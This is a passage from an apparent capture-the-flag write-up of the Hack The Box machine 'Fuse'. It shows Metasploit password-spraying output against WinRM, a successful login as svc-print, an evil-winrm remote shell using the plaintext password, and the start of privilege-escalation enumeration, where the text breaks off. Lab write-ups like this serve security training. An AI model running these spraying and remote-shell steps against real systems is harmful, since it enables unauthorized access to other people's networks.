 ```bash                                                  
msf5 auxiliary(scanner/winrm/winrm_login) > run  
[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\DefaultAccount:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\Administrator:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\krbtgt:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\pmerton:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\tlavel:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\sthompson:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\bhult:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\bnielson:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\dandrews:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\mberbatov:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\astein:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\dmuir:$fab@s3Rv1ce$1 (Incorrect: )
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\svc-scan:$fab@s3Rv1ce$1 (Incorrect: )
[+] 10.10.10.193:5985 - Login Successful: WORKSTATION\svc-print:$fab@s3Rv1ce$1
[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\Guest:$fab@s3Rv1ce$1 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We can use evil-winrm

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse]$ evil-winrm -i fuse.htb -u svc-print -p '$fab@s3Rv1ce$1'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc-print\Desktop> dir


    Directory: C:\Users\svc-print\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         7/8/2020   4:37 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-print\Desktop> whoami 
fabricorp\svc-print
*Evil-WinRM* PS C:\Users\svc-print\Desktop>
```

# Privilege Escalation:~$

```bash
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

```